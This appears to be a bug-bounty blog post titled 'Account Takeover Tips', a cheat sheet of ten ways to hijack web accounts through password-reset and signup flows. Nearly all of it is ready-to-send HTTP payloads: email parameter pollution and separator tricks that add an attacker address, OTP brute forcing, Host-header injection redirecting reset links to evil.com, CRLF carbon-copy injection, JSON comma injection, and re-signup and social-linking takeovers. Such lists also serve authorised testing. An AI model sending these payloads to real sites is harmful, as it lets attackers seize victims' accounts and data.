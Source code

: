 ```yaml
---
title: Account Takeover Tips
author: Elsfa7-110
categories: [XSS, ATO]
tags: [ATO]
pin: true
---
```

## Account Takeover

1. Parameter pollution in reset password
```
POST /reset
[...]
email=victim@mail.com&email=hacker@mail.com
```

2. Bruteforce the OTP code
```
POST /reset
[...]
email=victim@mail.com&code=$123456$
```

3. Host header Injection
```
POST /reset
Host: evil.com
[...]
email=victim@mail.com
```
```
POST /reset
Host: target.com
X-Forwarded-Host: evil.com
[...]
email=victim@mail.com
```
And the victim will receive the reset link with evil.com

4. Using separator in value of the parameter
```
POST /reset
[...]
email=victim@mail.com,hacker@mail.com
```
```
POST /reset
[...]
email=victim@mail.com%20hacker@mail.com
```
```
POST /reset
[...]
email=victim@mail.com|hacker@mail.com
```
```
POST /reset
[...]
email=victim@mail.com%00hacker@mail.com
```

5. No domain in value of the paramter
```
POST /reset
[...]
email=victim
```

6. No TLD in value of the parameter
```
POST /reset
[...]
email=victim@mail
```

7. Using carbon copy
```
POST /reset
[...]
email=victim@mail.com%0a%0dcc:hacker@mail.com
```

8. Try re-sign up using same email
```
POST /newaccount
[...]
email=victim@mail.com&password=1234
```
After sign up using victim email, try signup again but using different password
```
POST /newaccount
[...]
email=victim@mail.com&password=hacked
```

9. If there is JSON data in body requests, add comma
```
POST /newaccount
[...]
{“email”:“victim@mail.com”,”hacker@mail.com”,“token”:”xxxxxxxxxx”}
```

10. Account takeover after login (Work if inside the website there is "Connect to facebook/twitter/etc")
  - First, login to the website using victim email
  - Find "Connect to facebook/twitter/googleplus" or something like that ![Photo](https://miro.medium.com/max/875/0*LOrCFhQF9-KPALPg.png)]
  - Connect to attacker twitter
  - After logout you can login using the twitter
